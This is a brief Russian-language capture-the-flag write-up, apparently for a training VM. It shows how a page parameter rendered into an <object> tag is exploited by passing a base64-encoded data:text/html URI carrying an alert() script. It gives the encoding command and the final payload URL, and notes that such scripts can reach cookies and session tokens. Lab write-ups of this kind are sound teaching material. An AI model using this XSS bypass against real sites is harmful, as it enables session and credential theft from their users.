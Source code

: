 The data uri scheme, mime types and xss

http://192.168.56.110/index.php?page=media&src=nsa

Вместо nsa пробуем вставить рисунок получаем:
http://192.168.56.110/?page=media&src=/images/nsa.png

Вместо nsa пробуем вставить js скрипт получаем Sorry Wrong Answre:
192.168.56.110/?page=media&src=<script>alert("hello!");</script>
Если мы посмотрим Page source то можем заметить что 
<object data="<script>alert(&quot;hello!&quot;);</script>"></object>

Оказывается, мы можем использовать base64 для кодирования нашего скрипта в javascript

согласно статье в Википедии :

https://en.wikipedia.org/wiki/Data_URI_scheme
Синтаксис URI данных был определен в RFC 2397, опубликованном в августе 1998 г. [5], и следует синтаксису схемы URI. URI data состоит из:
data:[<media type>][;base64],<data>
данные: [<тип носителя>][; base64],<данные>

Через терминал находим кодировку base64
echo -n '<script>alert("hello");</script>' | base64 
PHNjcmlwdD5hbGVydCgiaGVsbG8iKTs8L3NjcmlwdD4=

или на сайте 
https://base64.guru/converter/encode
<script>alert("hello");</script>
PHNjcmlwdD5hbGVydCgiaGVsbG8iKTs8L3NjcmlwdD4=

Вставляем base64 согласно формата в строку поиска и находим флаг

http://192.168.56.110/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGVsbG8iKTs8L3NjcmlwdD4=


вредоносный скрипт может получить доступ к любым файлам cookie, токенам сеанса или другой конфиденциальной информации, сохраненной браузером и используемой на этом сайте.

Рекомендации 

https://owasp.org/www-community/attacks/xss/


